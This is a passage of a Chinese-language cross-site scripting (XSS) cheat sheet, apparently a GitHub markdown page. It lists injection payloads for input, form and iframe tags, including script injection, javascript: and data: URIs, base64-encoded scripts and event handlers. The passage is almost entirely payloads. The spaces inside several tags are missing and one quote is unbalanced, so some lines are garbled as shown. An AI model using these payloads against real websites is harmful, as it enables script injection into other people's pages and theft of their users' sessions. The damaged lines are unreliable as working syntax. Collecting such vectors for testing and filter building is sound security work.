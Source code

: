 ##### 利用方式4

```
<inputname="name"value=""><script>alert('xss')</script>
```

#### `<form>`标签

##### XSS利用方式1

> ```javascript
> <formaction=javascript:alert('xss')method="get">
> <formaction=javascript:alert('xss')>
> ```

##### XSS利用方式2

> ```javascript
> <formmethod=postaction=aa.asp?onmouseover=prompt('xss')>
> <formmethod=postaction=aa.asp?onmouseover=alert('xss')>
> <formaction=1onmouseover=alert('xss)>
> ```

##### XSS利用方式3

> 
>
> ```
> <formmethod=postaction="data:text/html;base64,<script>alert('xss')</script>">
> ```
>
> 
>
> ```
> <formmethod=postaction="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
> ```

#### `<iframe>`标签

##### XSS利用方式1

```
<iframesrc=javascript:alert('xss');height=5width=1000/><iframe>
```

##### XSS利用方式2

```
<iframesrc="data:text/html,<script>alert('xss')</script>"></iframe>
```



```
<iframesrc="data:text/html;base64,<script>alert('xss')</script>">
```

